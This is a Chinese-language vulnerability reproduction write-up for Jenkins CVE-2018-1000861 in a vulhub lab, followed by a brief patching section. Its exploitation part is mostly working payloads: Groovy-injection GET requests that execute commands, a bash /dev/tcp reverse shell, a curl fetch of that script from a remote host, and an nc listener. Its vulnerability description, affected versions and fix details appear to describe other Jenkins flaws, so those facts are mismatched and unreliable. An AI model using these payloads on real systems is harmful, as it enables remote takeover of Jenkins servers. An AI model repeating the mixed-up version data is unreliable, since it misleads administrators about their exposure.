 ### 1. 漏洞描述
	Jenkins使用XStream库来序列化和反序列化XML。它的维护者最近发布了一个安全漏洞，任何能够向Jenkins提供XML并使用XStream的用户都可以使Java进程崩溃。Jenkins中，这通常适用于有权创建或配置项目（作业），视图或代理的用户。

### 2. 漏洞原理
	该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 3. 影响范围
	Jenkins Version <= 2.56
	
	Jenkins LTS Version <= 2.46.1

### 4. 漏洞利用
环境搭建:

直接使用vulhub上的环境即可(徐安装好docker和docker-compose)

(1) 下载vulhub项目,然后进入到  vulhub/jenkins/CVE-2018-1000861目录下

(2)  执行命令:

```
docker-compose up -d
```
来启动环境
(3) 访问: [http://172.26.1.156:8080/](http://172.26.1.156:8080/)

![图片](https://uploader.shimo.im/f/FuGj0OkqoDIqYk4z.png!thumbnail)

漏洞复现:

1. 此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}
```
2. 我们这里采取下载文件的方法来反弹shell

 (1) 先在我们的服务器上防止一个文本,内容为:

```
bash -i >& /dev/tcp/172.26.1.156/9999 0>&1
```
 (2) 然后我们替换POC中执行命令的部分为下载文件的命令:
```
curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}
```
 (3) 给予下载的脚本执行权限:
```
chmod 777 /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}
```
 (4) 然后在我们接收shell的机器上监听之前写的端口:
```
nc -lvvp 9999
```
 (5)  直接bash执行我们下载的脚本
```
bash /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}
```
 (6) 回到我们监听端口的机器:
![图片](https://uploader.shimo.im/f/QRsn3axMoXox0OVa.png!thumbnail) 可以看到已经成功获取到了shell!

3. 这里提供一个GitHub上的利用脚本:

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

执行案例:

![图片](https://uploader.shimo.im/f/acYdWjpVrEM8SIjm.png!thumbnail)

### 5. 漏洞防御
1）由于漏洞危害较大（直接获取系统权限），且目前已有漏洞利用工具，Jenkins官方已修复上述漏洞，并将SignedObject添加到远程黑名单中。建议您尽快对照检查自己所用的Jenkins是否在受影响范围，如受影响，请及时进行升级操作。

a：Jenkins主版本用户需升级到2.58版本

b：Jenkins LTS 版本用户需升级到2.46.2版本

下载链接：[https://jenkins.io/download/](https://jenkins.io/download/)

2）与此同时，建议您针对您的Jenkins后台进行安全加固，在安全组设置仅允许指定的办公IP可以访问管理，禁止对所有非授权用户的访问。

### 6. Reference
[https://blog.csdn.net/JiangBuLiu/article/details/95487423](https://blog.csdn.net/JiangBuLiu/article/details/95487423)

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

